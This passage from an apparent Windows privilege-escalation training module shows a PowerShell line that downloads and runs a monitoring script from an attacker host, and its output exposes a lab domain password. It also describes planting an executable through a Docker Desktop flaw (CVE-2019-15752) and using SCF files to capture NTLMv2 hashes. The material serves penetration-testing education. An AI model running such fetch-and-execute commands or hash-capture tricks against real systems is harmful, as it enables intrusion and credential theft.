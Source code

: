 #### Running Monitor Script on Target Host

We can host the script on our attack machine and execute it on the target host as follows.

Interacting with Users

```powershell-session
PS C:\htb> IEX (iwr 'http://10.10.10.205/procmon.ps1') 

InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>      
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>      
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>      
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>       
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=
```

This is successful and reveals the password for the `sqlsvc` domain user, which we could then possibly use to gain access to the SQL02 host or potentially find sensitive data such as database credentials on the `backups` share.

---

## Vulnerable Services

We may also encounter situations where we land on a host running a vulnerable application that can be used to elevate privileges through user interaction. [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) is a great example of this. This was a vulnerability in Docker Desktop Community Edition before 2.1.0.1. When this particular version of Docker starts, it looks for several different files, including `docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., which do not exist with a Docker installation. The program looks for these files in the `C:\PROGRAMDATA\DockerDesktop\version-bin\`. This directory was misconfigured to allow full write access to the `BUILTIN\Users` group, meaning that any authenticated user on the system could write a file into it (such as a malicious executable).

Any executable placed in that directory would run when a) the Docker application starts and b) when a user authenticates using the command `docker login`. While a bit older, it is not outside the realm of possibility to encounter a developer's workstation running this version of Docker Desktop, hence why it is always important to thoroughly enumerate installed software. While this particular flaw wouldn't guarantee us elevated access (since it relies on a service restart or user action), we could plant our executable during a long-term assessment and periodically check if it runs and our privileges are elevated.

---

## SCF on a File Share

A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation. We may be able to capture a user's password hash and use the cleartext password to escalate privileges on the target host, within the domain, or further our access/gain access to other resources.
